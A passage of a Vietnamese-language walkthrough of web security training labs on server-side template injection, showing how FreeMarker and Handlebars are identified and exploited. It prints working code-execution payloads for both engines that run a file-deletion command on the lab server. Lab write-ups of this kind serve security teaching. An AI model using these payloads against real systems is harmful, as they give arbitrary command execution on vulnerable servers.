 >Có vẻ payload thứ 3 đang đúng với form payload ta cần tìm, thay giá trị `id` bằng lệnh mà ta muốn thực thi: 
>`${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`

>Save và tải lại trang và ta đã hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HJoHXrF8A.png)

# **4. Server-side template injection in an unknown language with a documented exploit**
>This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.
![image](https://hackmd.io/_uploads/B1QJNrFIR.png)

>Tiếp tục là 1 bài lab mà thông báo `out of stock` được render ra từ tham số `message` trên URL: ![image](https://hackmd.io/_uploads/rykxBrFLC.png)

>Ta tiếp tục thử các payload để tìm xem lab này sử dụng template gì... Khi thử đến `{{var}}` thì không thấy in ra màn hình gì cả, nghi ngờ rằng payload này đang hoạt động đúng: ![image](https://hackmd.io/_uploads/SkXDrSFIC.png)

>Thử thay xem có thể thực thi code hay không bằng payload `{{7*7}}` thì thấy có thông báo lỗi xuất hiện: ![image](https://hackmd.io/_uploads/BkghBrKUA.png)

>Qua thông báo lỗi thì biết được server sử dụng template **Handlebars**!

>Ta lại tra trên "Payload All The Thing" để lấy code exec tương ứng: 
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

>Send payload thì thấy server không thực thi nó mà vẫn trả về lỗi: ![image](https://hackmd.io/_uploads/rkvd_HFLC.png)

>Lúc này, ta sẽ đi URL-decode payload vì server sẽ thực hiện encode payload trước khi xử lí: ![image](https://hackmd.io/_uploads/SkrsdHYLR.png)